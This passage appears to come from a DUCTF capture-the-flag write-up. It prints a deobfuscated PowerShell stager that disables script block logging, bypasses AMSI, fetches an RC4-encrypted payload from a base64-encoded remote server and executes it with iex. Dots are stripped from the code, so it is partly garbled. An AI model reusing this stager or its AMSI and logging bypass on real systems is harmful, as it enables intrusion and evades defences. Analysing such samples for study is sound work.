 ![ductf](/assets/img/Posts/DUCTF/resultsummary.png)

Anyway, i went ahead and cleaned it ABIT for easier readability:

```powershell
if($psversiontablepsversionmajor -ge 3){$f0c32=[ref]assemblygettype('systemmanagementautomationutils')"getfie`ld"('cachedgrouppolicysettings','n'+'onpublic,static');if($f0c32){$ea761=$f0c32getvalue($null);if($ea761['scriptb'+'locklogging']){$ea761['scriptb'+'locklogging']['enablescriptb'+'locklogging']=0;$ea761['scriptb'+'locklogging']['enablescriptblockinvocationlogging']=0}$val=[collectionsgenericdictionary[string,systemobject]]::new();$valadd('enablescriptb'+'locklogging',0);$valadd('enablescriptblockinvocationlogging',0);$ea761['hkey_local_machine\software\policies\microsoft\windows\powershell\scriptb'+'locklogging']=$val}else{[scriptblock]"getfie`ld"('signatures','n'+'onpublic,static')setvalue($null,(new-object collectionsgenerichashset[string]))}$ref=[ref]assemblygettype('systemmanagementautomationamsi'+'utils');$refgetfield('amsiinitf'+'ailed','nonpublic,static')setvalue($null,$true);};[systemnetservicepointmanager]::expect100continue=0;$b3904=new-object systemnetwebclient;$u='mozilla/50 (windows nt 61; wow64; trident/70; rv:110) like gecko';$ser=$([textencoding]::unicodegetstring([convert]::frombase64string('aab0ahqacaa6ac8alwaxadkamgauadeanga4ac4amaauadianwa6adcanwa3adca')));$t='/admin/getphp';$b3904headersadd('user-agent',$u);$b3904proxy=[systemnetwebrequest]::defaultwebproxy;$b3904proxycredentials = [systemnetcredentialcache]::defaultnetworkcredentials;$script:proxy = $b3904proxy;$k=[systemtextencoding]::asciigetbytes('/y0dzf;_)nkl^~m#k(xg]*rofe,c}2%r');$r={$d,$k=$args;$s=0255;0255|%{$j=($j+$s[$_]+$k[$_%$kcount])%256;$s[$_],$s[$j]=$s[$j],$s[$_]};$d|%{$i=($i+1)%256;$h=($h+$s[$i])%256;$s[$i],$s[$h]=$s[$h],$s[$i];$_-bxor$s[($s[$i]+$s[$h])%256]}};$b3904headersadd("cookie","lvzofoofzaivdvtv=kwvhnwexsgzizxxp+6go0di09jg=");$data=$b3904downloaddata($ser+$t);$iv=$data[03];$data=$data[4$datalength];-join[char[]](& $r $data ($iv+$k))|iex
```
